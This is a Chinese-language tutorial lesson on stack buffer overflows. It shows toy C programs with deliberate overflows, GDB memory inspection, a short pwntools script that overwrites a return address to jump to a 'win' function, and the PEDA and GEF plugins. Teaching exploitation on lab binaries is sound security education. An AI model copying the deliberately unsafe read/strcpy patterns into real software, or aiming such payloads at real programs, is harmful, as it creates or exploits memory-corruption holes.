


# 26：二进制漏洞利用基础与工具使用



在本节课中，我们将学习二进制漏洞利用的核心概念，特别是内存损坏和缓冲区溢出。我们将通过一个简单的C程序示例，演示缓冲区溢出的原理，并介绍如何使用调试器（GDB）和辅助工具（如pwntools、peda、GEF）来分析和利用这些漏洞。

## 概述

内存损坏是二进制漏洞利用中的一个核心主题。当程序向内存缓冲区写入超出其分配空间的数据时，就会发生缓冲区溢出，这可能导致程序崩溃或被攻击者控制执行流程。本节课将通过一个简单的C程序，逐步演示缓冲区溢出的发生过程，并介绍如何利用调试器进行分析和利用。


## 内存损坏与缓冲区溢出


上一节我们介绍了内存损坏的基本概念，本节中我们来看看一个具体的缓冲区溢出示例。

首先，我们创建一个简单的C程序 `test.c`：

```c
#include <stdio.h>
#include <string.h>

void foo() {
    char buffer[16];
    strcpy(buffer, "Hello, World!");
}

int main() {
    foo();
    return 0;
}
```

这个程序定义了一个大小为16字节的缓冲区，并使用 `strcpy` 函数将字符串 "Hello, World!" 复制到缓冲区中。由于字符串长度（14字节）小于缓冲区大小，因此不会发生溢出。

接下来，我们编译并运行这个程序，使用GDB观察内存状态：

```bash
gcc -o test test.c
gdb ./test
```


在GDB中，我们可以设置断点并查看缓冲区的内存内容：



```
(gdb) break foo
(gdb) run
(gdb) disassemble foo
(gdb) x/16bx $rbp-0x10
```

通过观察，我们可以看到缓冲区的内容以及栈上的其他数据，如保存的基指针（RBP）和返回地址（RIP）。

## 缓冲区溢出的影响

现在，我们修改程序，使其发生缓冲区溢出：

```c
#include <stdio.h>
#include <string.h>

void foo() {
    char buffer[16];
    strcpy(buffer, "Hello, World!AAAAAAAABBBBBBBBCCCCCCCC");
}

int main() {
    foo();
    return 0;
}
```


这次，我们向缓冲区写入超过16字节的数据，导致溢出。编译并运行程序后，使用GDB观察溢出对栈的影响：

```
(gdb) break foo
(gdb) run
(gdb) x/32bx $rbp-0x10
```

我们可以看到，超出缓冲区的数据覆盖了栈上的其他数据，包括保存的RBP和RIP。当函数返回时，程序会尝试跳转到被覆盖的RIP地址，这通常会导致段错误（Segmentation Fault）。

## 利用缓冲区溢出控制程序流程

上一节我们看到了缓冲区溢出如何导致程序崩溃，本节中我们来看看如何利用这种溢出控制程序流程。

假设我们有一个名为 `win` 的函数，我们希望程序执行这个函数而不是崩溃：

```c
#include <stdio.h>
#include <string.h>

void win() {
    printf("U1\n");
}

void foo() {
    char buffer[16];
    read(0, buffer, 4096); // 从标准输入读取数据，存在缓冲区溢出风险
}

int main() {
    foo();
    return 0;
}
```

我们的目标是通过缓冲区溢出，将返回地址覆盖为 `win` 函数的地址。首先，我们需要确定 `win` 函数的地址和缓冲区到返回地址的偏移量。

使用GDB计算偏移量：

```
(gdb) break foo
(gdb) run
(gdb) print $rsp+8  # 返回地址的位置
(gdb) print $rsi    # 缓冲区的起始位置（read函数的第二个参数）
```

假设偏移量为24字节（0x18），我们可以构造如下payload：

```python
from pwn import *

# 获取win函数的地址
elf = ELF('./test')
win_addr = elf.symbols['win']

# 构造payload
payload = b'A' * 24 + p64(win_addr)

# 发送payload
p = process('./test')
p.send(payload)
print(p.recvall())
```

这样，当 `foo` 函数返回时，程序会跳转到 `win` 函数，打印 "U1"。

## 使用辅助工具简化分析

手动使用GDB进行分析可能比较繁琐，以下是一些辅助工具，可以简化调试过程：

- **PEDA (Python Exploit Development Assistance)**：一个GDB插件，提供颜色高亮、寄存器查看、栈查看等功能。
- **GEF (GDB Enhanced Features)**：另一个GDB增强工具，功能类似PEDA，但界面略有不同。
- **pwntools**：一个Python库，用于编写漏洞利用脚本，支持进程交互、内存操作、汇编/反汇编等功能。

以下是使用PEDA的示例：

```bash
gdb -q ./test
source /path/to/peda.py
break foo
run
```

PEDA会自动显示寄存器、栈、代码等信息，使调试更加直观。

## 总结


本节课中我们一起学习了二进制漏洞利用的基础知识，包括内存损坏、缓冲区溢出的原理及其利用方法。我们通过一个简单的C程序演示了缓冲区溢出的发生过程，并介绍了如何使用GDB和辅助工具（如pwntools、PEDA、GEF）进行分析和利用。掌握这些工具和技巧对于理解和利用二进制漏洞至关重要。